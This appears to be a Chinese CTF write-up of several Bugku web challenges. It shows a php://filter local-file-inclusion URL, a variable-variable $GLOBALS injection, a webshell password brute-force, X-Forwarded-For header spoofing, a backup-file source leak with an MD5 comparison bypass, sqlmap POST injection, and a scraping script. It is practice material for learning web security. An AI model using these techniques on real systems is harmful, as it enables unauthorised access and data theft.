 # CTF 5月第一期

[TOC]



## flag在index里

<http://123.206.87.240:8005/post/>

文件包含漏洞

`http://123.206.87.240:8005/post/index.php?file=show.php`

构造url`http://120.24.86.145:8005/post/index.php?file=php://filter/read=convert.base64-encode/resource=index.php`

查看源码：

```HTML
<html>
    <title>Bugku-ctf</title>
    
<?php
	error_reporting(0);
	if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}
	$file=$_GET['file'];
	if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
		echo "Oh no!";
		exit();
	}
	include($file); 
//flag:flag{edulcni_elif_lacol_si_siht}
?>
</html>

```



解释url含义：

```
这是一个file关键字的get参数传递，php://是一种协议名称，php://filter/是一种访问本地文件的协议，/read=convert.base64-encode/表示读取的方式是base64编码后，resource=index.php表示目标文件为index.php。

通过传递这个参数可以得到index.php的源码，下面说说为什么，看到源码中的include函数，这个表示从外部引入php文件并执行，如果执行不成功，就返回文件的源码。

而include的内容是由用户控制的，所以通过我们传递的file参数，是include（）函数引入了index.php的base64编码格式，因为是base64编码格式，所以执行不成功，返回源码，所以我们得到了源码的base64格式，解码即可。

如果不进行base64编码传入，就会直接执行，而flag的信息在注释中，是得不到的
--------------------- 
作者：安~然 
来源：CSDN 
原文：https://blog.csdn.net/zpy1998zpy/article/details/80585443 
版权声明：本文为博主原创文章，转载请附上博文链接！
```

参考wp:

https://blog.csdn.net/zpy1998zpy/article/details/80585443

## 变量1（代码审计）

```php

http://120.24.86.145:8004/index1.php
flag In the variable ! <?php   
 
 
error_reporting(0);                    // 关闭php错误显示
include "flag1.php";                   // 引入flag1.php文件代码
highlight_file(__file__);              //对文件进行语法高亮显示
if(isset($_GET['args'])){              // 条件判断 get方法传递                                         的args参数是否存在 
    $args = $_GET['args'];             //赋值给变量  $args
    if(!preg_match("/^\w+$/",$args)){  // /^开始, \w表示任意一个单词字符，即[a-zA-Z0-9_] ,+将前面的字符匹配一次或多次，$/结尾
        
        die("args error!");            //输出 args error! 
    }
    eval("var_dump($$args);");         // 将字符串作为php代码执行结尾加分号 var_dump()函数 显示关于一个或多个表达式的结构信息，包括表达式的类型与 值。数组将递归展开值，通过缩进显示其结构。$$args 可以理解为$($args)
}
?>
```

var_dump()函数 显示关于一个或多个表达式的结构信息包括表达式的类型与值

* 可变变量

![img](D:\Desktop\webclass\note\Center)

我们想到构造   php中超全局变量 $GLOBALS  ，PHP 在名为 $GLOBALS[index] 的数组中存储了所有全局变量。变量的名字就是数组的键。

参考：

https://blog.csdn.net/xuchen16/article/details/82737194

https://blog.csdn.net/anjiaowangmenghan/article/details/76460872

## 网站被黑

关于后台shell(参考百度百科)

```
webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的。
顾名思义，“web”的含义是显然需要服务器开放web服务，“shell”的含义是取得对服务器某种程度上操作权限。webshell常常被称为入侵者通过网站端口对网站服务器的某种程度上操作的权限。由于webshell其大多是以动态脚本的形式出现，也有人称之为网站的后门工具。
```

扫描后台，得到其后台网页 shell.php

进入后台网页后，利用burp自带字典爆破即可得到密码。

## 管理员系统

这是一个XXF问题

XFF:

```
X-Forwarded-For(XFF)是用来识别通过HTTP代理或负载均衡方式连接到Web服务器的客户端最原始的IP地址的HTTP请求头字段。通俗来说，就是浏览器访问网站的IP。获取http请求段真实的ip。
```

通过伪造XFF头绕过服务器ip过滤

源码的最最最最后有base64加密的管理员密码。

burp抓包修改XFF头重放，获得flag.

## 备份是个好习惯

在目录中某个文件的.bak文件可以访问

尝试访问index.php.bak

得到源码：

```php
<?php
/**
 * Created by PhpStorm.
 * User: Norse
 * Date: 2017/8/6
 * Time: 20:22
*/

include_once "flag.php";
ini_set("display_errors", 0);
$str = strstr($_SERVER['REQUEST_URI'], '?');
$str = substr($str,1);
$str = str_replace('key','',$str);
parse_str($str);
echo md5($key1);

echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."鍙栧緱flag";
}
?>

```

str_replace()只匹配一次，用kkeyey绕过匹配。

将获得两个key用MD5加密，然后比较，相同就输出flag.

## 成绩单

* 使用sqlmap进行post请求注入

  利用burp抓包，将包保存为txt文件，将txt文件通过-r 参数传给sqlmap，然后-p指定参数。其他的与get方式类似。

* 使用手工注入

  参考：https://blog.csdn.net/xuchen16/article/details/82785371

## 秋名山老司机

利用python抓取页面表达式并计算出值post回去。

参考代码：

```python
import requests
import re
k=0
while k<=20:
    k=k+1
    s =requests.Session()
    r =s.get("http://123.206.87.240:8002/qiumingshan/")
    searchObj = re.search(r'^<div>(.+)=\?;</div>$',r.text,re.M|re.S)#re.M|re.S匹配多行或匹配一行
    data = {
        "value":eval(searchObj.group(1))#这里是value是从网页提示中得到的
    }
    flag = s.post("http://123.206.87.240:8002/qiumingshan/",data=data)
    print(flag.text)

```

## 速度要快

利用脚本，提取请求头内部信息并利用base64解密，利用post传回参数得到post回应。参考：https://blog.csdn.net/destiny1507/article/details/82426436



